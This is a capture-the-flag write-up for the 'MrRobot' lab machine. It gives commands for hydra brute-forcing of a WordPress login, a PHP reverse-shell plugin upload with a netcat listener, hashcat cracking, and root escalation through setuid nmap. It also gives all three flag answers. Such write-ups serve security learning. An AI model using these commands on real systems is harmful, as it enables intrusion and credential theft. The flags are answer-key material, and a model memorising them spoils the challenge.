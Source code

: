 # MrRobot
---

## *enumeration*


### open ports:
- 80    (http)
- 443   (ssl/http)

### robots.txt:
- fsocity.dic
- key-1-of-3.txt => 073403c8a58a1f80d943455fb30724b9

### "What is key 1?"

==> **073403c8a58a1f80d943455fb30724b9**


## *exploitation*

### hydra login bruteforce:
```bash
hydra -L fsocity.dic -p test $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:Invalid username" -t 30
```

>>*// use fsocity.dic as login(username) list with password 'test' to find valid username*

=> login: Elliot

```bash
hydra -l Elliot -P fsocity.dic $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PWD^:The password you entered for the username" -t 30
```

>> *// use fsocity.dic as password list with user Elliot*

=> password: ER28-0652

### reverse shell
```bash
vim revshell.php                # create php reverse shell
7z a rsplugin.zip revshell.php  # zip php file
nc -lnvp 1234
```

On http://$IP/wp-admin/plugins.php \
-> Add New \
-> Upload Plugin \
-> Select rsplugin.zip & Install Now \
-> Activate Plugin

## *privesc*
```bash
# reverse shell
cat /home/robot/password.raw-md5 # -> robot.md5

# attacker shell
hashcat -a0 -m0 robot.md5 /opt/wordlists/passwords/rockyou.txt # -> abcdefghijklmnopqrstuvwxyz

# reverse shell
echo "import pty; pty.spawn('/bin/bash')" > /tmp/asdf.py
python /tmp/asdf.py # required to use 'su'

su robot
# Password: abcdefghijklmnopqrstuvwxyz

cat ~/key-2-of-3.txt # -> 822c73956184f694993bede3eb39f959
```

### "What is key 2?"

==> **822c73956184f694993bede3eb39f959**


## *more privesc*
```bash
# find files with sticky bit set
find / -type f -perm +6000 2>/dev/null # -> /usr/local/bin/nmap

/usr/local/bin/nmap --interactive
    !sh
    cat /root/key-3-of-3.txt # -> 04787ddef27c3dee1ee161b21670b4e4
```

### "What is key 3?"

==> **04787ddef27c3dee1ee161b21670b4e4**
